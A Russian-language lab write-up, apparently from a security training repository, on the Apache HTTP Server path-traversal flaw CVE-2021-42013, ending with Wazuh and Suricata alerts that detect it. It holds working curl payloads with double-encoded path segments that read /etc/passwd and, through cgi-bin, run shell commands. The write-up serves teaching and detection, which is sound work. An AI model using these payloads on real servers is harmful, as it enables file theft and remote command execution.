




# CVE-2021-42013

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2021-42013](https://nvd.nist.gov/vuln/detail/CVE-2021-42013)
* [https://www.opencve.io/cve/CVE-2021-42013](https://www.opencve.io/cve/CVE-2021-42013)

CVE-2021-42013 — это уязвимость, вызванная неполным исправлением [CVE-2021-41773](cve-2021-41773.md).&#x20;

### Эксплуатация уязвимости

Для запуска уязвимого Apache HTTP сервера выполните команды:

```
docker compose build
docker compose up -d
```

После запуска сервера по адресу [http://ваш-ip:8080](http://xn---ip-5cdj7k:8080/) будет доступна дефолтная страница с фразой "It works!

<figure><figcaption></figcaption></figure>

Предыдущая полезная нагрузка CVE-2021-41773 `http://ваш-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd` была пропатчена, но не полностью.

Для реализации уязвимости нужно использовать `.%%32%65`

```
curl -v --path-as-is http://ваш-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

> обратите внимание, что /icons/ должен быть существующим каталогом

Результатом выполнения команды будет вывод содержимого файла /etc/passwd

<figure><figcaption></figcaption></figure>

Если на сервере включены моды cgi или cgid, эта уязвимость обхода пути позволит выполнить произвольные команды:

curl -v --data "echo;id" 'http://ваш-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'

<figure><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости, о выводе файла /etc/passwd в ответе на ваш запрос и о выполнении произвольных команд.

<figure><figcaption></figcaption></figure>
